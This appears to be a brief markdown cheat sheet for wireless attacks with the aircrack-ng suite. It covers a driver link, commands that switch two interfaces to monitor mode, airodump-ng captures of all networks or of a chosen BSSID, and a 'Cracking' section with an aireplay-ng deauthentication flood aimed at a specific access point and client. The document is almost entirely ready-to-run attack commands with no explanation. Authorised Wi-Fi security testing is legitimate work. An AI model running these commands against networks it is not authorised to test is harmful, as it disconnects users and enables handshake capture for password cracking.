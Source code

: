 ## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --band bg wlan0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid CHANGEME --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --bssid CHANGEME --channel 1 wlan0
```

## Cracking
```bash
iwconfig wlan1 channel 4

aireplay-ng -0 99 -D -a BSSID -c TARGET wlan1
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
